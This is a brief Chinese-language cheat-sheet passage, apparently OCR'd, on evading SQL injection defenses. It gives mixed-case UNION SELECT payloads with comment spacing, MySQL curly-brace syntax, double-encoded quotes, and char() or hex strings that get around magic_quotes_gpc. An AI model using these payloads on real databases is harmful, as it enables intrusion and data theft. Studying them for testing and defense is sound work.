 ### 语句变形 --mysql黑魔法

```
SQL> select{x table_name}from{x information_schema.tables}
```

### 大小写

SQL> 1+UnIoN/**/SeLecT/**/1,2,3 --

## 中间层绕过

### php.ini设置

safe_mode = On <- 比较用户权限，限制特定函数
display_errors = Off

magic_quotes_gpc = On <- 转义特殊符号
and+column_name+like+%2527%25pass%25%2527 双重转义

magic_quotes_gpc = Off
username=char(97,108,112)%23 <- 不包含引号 username=0x616C7069 select 'a' -> select version() <- 不包含引号